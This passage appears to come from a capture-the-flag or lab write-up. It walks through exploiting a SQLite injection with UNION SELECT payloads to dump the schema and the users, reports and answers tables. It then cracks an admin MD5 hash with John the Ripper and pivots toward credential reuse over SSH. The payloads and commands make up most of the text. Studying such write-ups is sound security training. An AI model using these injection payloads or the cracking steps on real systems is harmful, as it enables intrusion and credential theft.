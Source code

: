 ```bash
# bryan@red_team (bash)
send '" UNION SELECT 0,group_concat(sql,CHAR(0xa)),0,0 FROM sqlite_schema--' | tee res.json
jq -r .message.version res.json | sed 's/$/;/' | tee schema.sql
```
{:.nolineno}

```sql
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER);
CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT);
CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT);
CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE);
CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id));
```
{:file="schema.sql"}

We'll extract a few non-standard tables starting with _users_.

```bash
# bryan@red_team (bash)
mkdir tables
send '" UNION SELECT 0,group_concat(printf("%s|%s|%s",username,password,role),CHAR(0xa)),0,0 FROM users--' |
  jq -r .message.version | tee tables/users.txt # dump users table to tables/users.txt
send '" UNION SELECT 0,group_concat(printf("%s|%s|%s|%s",reporter_name,subject,description,reported_date),CHAR(0xa)),0,0 FROM reports--' |
  jq -r .message.version | tee tables/reports.txt # dump reports table to tables/reports.txt
send '" UNION SELECT 0,group_concat(printf("%s|%s|%s|%s",answered_by,answer,answered_date,status),CHAR(0xa)),0,0 FROM reports--' |
  jq -r .message.version | tee tables/answers.txt # dump answers table to tables/answers.txt
```
{:.nolineno}

The _users_ table contains a single row with a password hash associated with the username _admin_.
assuming that this is an MD5 hash based on the length and context, we'll try to crack it with [John the Ripper](https://github.com/openwall/john).

```bash
# bryan@red_team (bash)
wl=~/wordlist/rockyou.txt # use standard rockyou.txt list
john --wordlist=$wl --format=raw-md5 <(echo admin:0c090c365fa0559b151a43e0fea39710)
```
{:.nolineno}

We successfully recover the password **`denjanjade122566`**!
If we try to login over SSH using these credentials however, authentication fails.
It is likely that this password has been reused by the subject for other services so the issue might be the username.
We do notice from looking at the _answers_ table that the person managing the admin account uses the name **Thomas Keller**.

>
Hello Mike,\
\
 We have confirmed a valid problem with handling non-ascii characters. So we suggest you to stick with ascii printable characters for now!\
\
**Thomas Keller**
